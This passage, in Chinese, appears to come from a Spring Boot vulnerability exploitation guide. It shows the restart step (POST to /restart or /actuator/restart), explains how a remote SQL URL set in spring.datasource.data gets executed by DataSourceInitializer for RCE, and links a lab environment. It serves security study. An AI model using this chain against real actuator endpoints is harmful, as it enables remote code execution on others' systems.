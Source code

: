 

##### 步骤三：重启应用

spring 1.x

```
POST /restart
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```
POST /actuator/restart
Content-Type: application/json

```



#### 漏洞原理：

1. 目标机器可以通过 spring.datasource.data 属性来设置 jdbc DML sql 文件的 URL 地址
2. restart 重启应用后，程序会请求设置的 URL 地址
3. `spring-boot-autoconfigure` 组件中的 `org.springframework.boot.autoconfigure.jdbc.DataSourceInitializer.java` 文件代码逻辑中会使用 `runScripts` 方法执行请求 URL 内容中的 h2 database sql 代码，造成 RCE 漏洞



#### 漏洞环境：

[repository/springboot-restart-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-restart-rce)

正常访问：

```
http://127.0.0.1:9098/actuator/env
```

